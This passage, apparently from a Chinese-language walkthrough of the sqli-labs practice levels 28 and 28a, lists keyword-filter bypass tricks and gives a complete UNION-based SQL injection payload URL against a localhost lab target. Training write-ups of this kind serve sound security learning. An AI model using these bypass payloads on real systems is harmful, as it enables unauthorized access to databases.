 ### 绕过方式

* 双写绕过

> union

* 加字符绕过

> union all select

**直接上payload**

> http://127.0.0.1/sqlilabs2/Less-28/?id=1')%0aand%0a1=2%0aunion%0aall%0aselect%0a1,database(),3%0aor ('1

## 第二十八a关 基于GET盲注-你的UNION和SELECT归我所有-字符型单引号和括号

和上一关类似

![2020-1-9-11-23-10](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-9-11-23-10)